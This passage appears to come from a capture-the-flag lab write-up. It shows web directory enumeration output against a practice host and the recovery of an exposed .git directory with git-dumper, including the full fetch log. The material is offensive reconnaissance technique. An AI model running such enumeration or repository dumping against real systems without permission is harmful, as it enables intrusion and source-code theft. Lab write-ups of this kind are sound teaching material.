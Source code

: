 ```bash
403      GET        9l       28w      275c http://target.htb/dev/.html_var_DE.php
403      GET        9l       28w      275c http://target.htb/dev/.htpasswd
403      GET        9l       28w      275c http://target.htb/dev/.htpasswd.php
301      GET        9l       28w      311c http://target.htb/dev/.git => http://target.htb/dev/.git/
403      GET        9l       28w      275c http://target.htb/dev/.html.
403      GET        9l       28w      275c http://target.htb/dev/.html..php
403      GET        9l       28w      275c http://target.htb/dev/.html.html
403      GET        9l       28w      275c http://target.htb/dev/.html.html.php
403      GET        9l       28w      275c http://target.htb/dev/.htpasswds
...
```

The dev folder contained a `.git` folder. So I used [git-dumper](https://github.com/arthaud/git-dumper) to extract it. 

```bash
$ git-dumper http://target.htb/dev/.git/ siteCode/
[-] Testing http://target.htb/dev/.git/HEAD [200]
[-] Testing http://target.htb/dev/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://target.htb/dev/.gitignore [404]
[-] http://target.htb/dev/.gitignore responded with status code 404
[-] Fetching http://target.htb/dev/.git/ [200]
[-] Fetching http://target.htb/dev/.git/packed-refs [200]
[-] Fetching http://target.htb/dev/.git/description [200]
[-] Fetching http://target.htb/dev/.git/branches/ [200]
[-] Fetching http://target.htb/dev/.git/config [200]
[-] Fetching http://target.htb/dev/.git/HEAD [200]
[-] Fetching http://target.htb/dev/.git/index [200]
[-] Fetching http://target.htb/dev/.git/hooks/ [200]
[-] Fetching http://target.htb/dev/.git/info/ [200]
[-] Fetching http://target.htb/dev/.git/objects/ [200]
[-] Fetching http://target.htb/dev/.git/refs/ [200]
[-] Fetching http://target.htb/dev/.git/info/exclude [200]
[-] Fetching http://target.htb/dev/.git/objects/info/ [200]
[-] Fetching http://target.htb/dev/.git/refs/heads/ [200]
[-] Fetching http://target.htb/dev/.git/objects/pack/ [200]
[-] Fetching http://target.htb/dev/.git/refs/tags/ [200]
[-] Fetching http://target.htb/dev/.git/refs/remotes/ [200]
[-] Fetching http://target.htb/dev/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://target.htb/dev/.git/hooks/fsmonitor-watchman.sample [200]
[-] Fetching http://target.htb/dev/.git/hooks/commit-msg.sample [200]
[-] Fetching http://target.htb/dev/.git/hooks/post-update.sample [200]
[-] Fetching http://target.htb/dev/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://target.htb/dev/.git/hooks/pre-commit.sample [200]
[-] Fetching http://target.htb/dev/.git/hooks/pre-merge-commit.sample [200]
[-] Fetching http://target.htb/dev/.git/hooks/pre-push.sample [200]
[-] Fetching http://target.htb/dev/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://target.htb/dev/.git/hooks/pre-receive.sample [200]
[-] Fetching http://target.htb/dev/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching http://target.htb/dev/.git/hooks/push-to-checkout.sample [200]
[-] Fetching http://target.htb/dev/.git/hooks/update.sample [200]
[-] Fetching http://target.htb/dev/.git/refs/heads/main [200]
[-] Fetching http://target.htb/dev/.git/objects/pack/pack-30e4e40cb7b0c696d1ce3a83a6725267d45715da.idx [200]
[-] Fetching http://target.htb/dev/.git/refs/remotes/origin/ [200]
[-] Fetching http://target.htb/dev/.git/objects/pack/pack-30e4e40cb7b0c696d1ce3a83a6725267d45715da.pack [200]
[-] Fetching http://target.htb/dev/.git/refs/remotes/origin/HEAD [200]
[-] Fetching http://target.htb/dev/.git/logs/ [200]
[-] Fetching http://target.htb/dev/.git/logs/HEAD [200]
[-] Fetching http://target.htb/dev/.git/logs/refs/ [200]
[-] Fetching http://target.htb/dev/.git/logs/refs/heads/ [200]
```